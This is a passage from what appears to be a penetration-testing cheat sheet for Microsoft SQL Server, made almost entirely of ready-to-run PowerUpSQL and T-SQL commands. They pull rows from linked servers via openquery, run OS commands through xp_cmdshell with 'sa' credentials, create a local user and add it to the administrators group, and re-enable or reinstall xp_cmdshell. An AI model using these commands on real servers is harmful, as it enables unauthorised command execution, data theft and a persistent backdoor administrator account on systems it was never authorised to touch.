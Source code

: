 ### Gather the Top 5 Columns from a Selected Linked Table

> The results are ColumnName and ColumnValue which feed into following query


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`",'select TOP 5 * from <DatabaseNameFromPreviousCommand>.dbo.<TableNameFromPreviousCommand>')" -Verbose
```

### Gather Entries from a Selected Linked Column


```ps1
Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "select * from openquery(`"<DatabaseLinkName>`"'select * from <DatabaseNameFromPreviousCommand>.dbo.<TableNameFromPreviousCommand> where <ColumnNameFromPreviousCommand>=<ColumnValueFromPreviousCommand>')" -Verbose
```


## Command Execution via xp_cmdshell

> xp_cmdshell disabled by default since SQL Server 2005

```ps1
PowerUpSQL> Invoke-SQLOSCmd -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command whoami

# Creates and adds local user backup to the local administrators group:
PowerUpSQL> Invoke-SQLOSCmd -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "net user backup Password1234 /add'" -Verbose
PowerUpSQL> Invoke-SQLOSCmd -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "net localgroup administrators backup /add" -Verbose
```

* Manually execute the SQL query
	```sql
	EXEC xp_cmdshell "net user";
	EXEC master..xp_cmdshell 'whoami'
	EXEC master.dbo.xp_cmdshell 'cmd.exe dir c:';
	EXEC master.dbo.xp_cmdshell 'ping 127.0.0.1';
	```
* If you need to reactivate xp_cmdshell (disabled by default in SQL Server 2005)
	```sql
	EXEC sp_configure 'show advanced options',1;
	RECONFIGURE;
	EXEC sp_configure 'xp_cmdshell',1;
	RECONFIGURE;
	```
* If the procedure was uninstalled
	```sql
	sp_addextendedproc 'xp_cmdshell','xplog70.dll'
	```
